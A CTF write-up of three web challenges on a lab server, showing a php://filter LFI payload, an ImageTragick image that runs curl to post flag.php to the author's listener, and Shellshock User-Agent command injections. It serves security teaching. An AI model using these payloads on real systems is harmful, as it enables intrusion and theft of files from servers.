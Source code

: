 ```yaml
---
layout: post
title: "CTF7E4 - Web Challenges"
categories: CTF7E4
---
```

## 1. f1ltered
&nbsp;
**Challenge Description:**{: style="color: red"}
Read the source Luke!
- **Hosted on:** http://10.10.10.88:80

&nbsp;
![filtered1]({{ site.baseurl }}/assets/images/ctf7e4/filtered1.png){:.images}
&nbsp;

When we clicked on "Show News" button, paramter **page** changed from **?page=index** to **?page=news**. In this case we knew that it's including a local .php file so we should try for LFI (Local File Inclusion).

&nbsp;
![filtered1]({{ site.baseurl }}/assets/images/ctf7e4/filtered2.png){:.images}
&nbsp;

When including **?page=flag**, we saw a message saying *"It's here, you just have to see it."*. If the php code is vulnerable to LFI, we can try to read the source code with php wrappers. There are many [php wrappers](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi--rfi-using-wrappers) which can be used for different attacks, such as executing code, reading zipped/compressed files, etc. Since the flag we need is inside **flag.php**, we can use **php://filter** to convert the source code to base64 and force the server to interpret it so we can later decode it.
&nbsp;

> **http://10.10.10.88/index.php?page=php://filter/convert.base64-encode/resource=flag**{: style="color: red"}
&nbsp;

![filtered1]({{ site.baseurl }}/assets/images/ctf7e4/filtered3.png){:.images}
&nbsp;


> **echo "PD9waHAKCgkjWE9Se3BIcF93cjRwcGVyc188M30KCWVjaG8gIkl0J3MgaGVyZSB5b3UganVzdCBoYXZlIHRvIHNlZSBpdCI7Cgo/Pgo=" \| base64 -d**{: style="color: red"}


{% highlight php %}
<?php                     

	#XOR{pHp_wr4ppers_<3}
	echo "It's here you just have to see it";

?>
{% endhighlight %}
&nbsp;


## 2. Tr4g1ck
&nbsp;
**Challenge Description:**{: style="color: red"}
inurl:"hackerone" insite:"tragick"
- **Hosted on:** http://10.10.10.88:8000

&nbsp;
Browsing to http://10.10.10.88:8000, directory listing was enabled by default so we start analyzing the files that were present there.

&nbsp;
![filtered1]({{ site.baseurl }}/assets/images/ctf7e4/tragick1.png){:.images}
&nbsp;

We noticed that demo.php is converting or executing vul.jpg which can be uploaded by upload.php form. There was a [critical vulnerability](https://imagetragick.com) that was found on ImageMagick which is used by many websites for image processing.

&nbsp;
![filtered1]({{ site.baseurl }}/assets/images/ctf7e4/tragick2.png){:.images}
&nbsp;

There are may [PoCs](https://github.com/ImageTragick/PoCs) available on github which explain how to get a reverse shell, but since our goal is to only read the flag inside flag.php, we can use a simple curl command to send th flag back to our server.

&nbsp;
![filtered1]({{ site.baseurl }}/assets/images/ctf7e4/tragick3.png){:.images}
&nbsp;

We uploaded vul.jpg with the below content inside it.
&nbsp;

```
cat vul.jpg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`curl -d @flag.php http://10.10.20.2:9000/`"||id" )'
pop graphic-context
```

&nbsp;
![filtered1]({{ site.baseurl }}/assets/images/ctf7e4/tragick4.png){:.images}
&nbsp;

By default, python server module does not accept POST requests, so in this case we used a [modified](https://gist.githubusercontent.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7/raw/a6a1d090ac8549dac8f2bd607bd64925de997d40/server.py) version of it. As soon as file was uploaded, demo.php executed it and the content of flag.php came to our server listening on port 9000.

&nbsp;
![filtered1]({{ site.baseurl }}/assets/images/ctf7e4/tragick5.png){:.images}
&nbsp;


&nbsp;
&nbsp;
## 3. Old but Gold
&nbsp;
**Challenge Description:**{: style="color: red"}
Have  you seen Mr. Robot Season 1?
- **Hosted on:** http://10.10.10.88:7000

&nbsp;
Browsing to http://10.10.10.88:7000, we can see only a blank page but looking at the source code we notice something strange.

> curl https://10.10.10.88:7000                                                    **<\!-- Mr Robot - Ones and Zer0s -->**{: style="color: red"}

After spending a short time searching on google, we saw that in the episode 'Ones and Zer0s' E-Corp mail servers haven't been patched since "ShellShock" so Elliot used this vulnerability to hack into Tyrell's email. Usually shellshock is located on cgi scripts so we can use different tools such as dirsearch, gobuster, ffuf to find hidden files and directories. 
&nbsp;

&nbsp;
![filtered1]({{ site.baseurl }}/assets/images/ctf7e4/oldbutgold.png){:.images}
&nbsp;

> **→ ffuf -c -w ~/tools/SecLists/Discovery/Web-Content/common.txt -u http://10.10.10.88:7000/cgi-bin/FUZZ**
**stats  [Status: 200, Size: 107, Words: 17, Lines: 5]**{: style="color: red"}


> **→ curl -H "User-Agent: () { :; }; echo; /usr/bin/whoami" http://10.10.10.88:7000/cgi-bin/stats**                                                                    
**www-data**{: style="color: red"}

> **→ curl -H "User-Agent: () { :; }; echo; /bin/ls /var/www/" http://10.10.10.88:7000/cgi-bin/stats**                                                     
**16c5a217fbe1a2002019d4d5720e5724.txt**{: style="color: red"}
**index.html**{: style="color: red"}

> **→ curl -H "User-Agent: () { :; }; echo; /bin/cat /var/www/16c5a217fbe1a2002019d4d5720e5724.txt" http://10.10.10.88:7000/cgi-bin/stats**        
**XOR{sh3ll_sh0ck3d}**{: style="color: red"}

&nbsp;
I hope you had fun solving these challenges and learning something new.